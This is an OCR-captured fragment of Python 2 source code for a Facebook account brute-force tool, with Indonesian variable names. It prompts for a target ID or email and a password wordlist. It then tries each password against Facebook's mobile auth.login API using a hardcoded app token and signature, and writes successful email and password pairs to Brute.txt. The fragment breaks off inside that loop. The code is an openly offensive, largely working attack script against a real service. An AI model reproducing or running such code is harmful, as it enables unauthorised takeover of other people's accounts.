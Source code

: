         toket = open('login.txt', 'r').read()

    except IOError:

        print '\x1b[1;91m[!] Token not found'

        os.system('rm -rf login.txt')

        time.sleep(0.5)

        login()

    else:

        os.system('clear')

        print logo

        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

        try:

            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')

            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')

            total = open(passw, 'r')

            total = total.readlines()

            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email

            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'

            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')

            sandi = open(passw, 'r')

            for pw in sandi:

                try:

                    pw = pw.replace('\n', '')

                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)

                    sys.stdout.flush()

                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                    mpsh = json.loads(data.text)

                    if 'access_token' in mpsh:

                        dapat = open('Brute.txt', 'w')

                        dapat.write(email + ' | ' + pw + '\n')
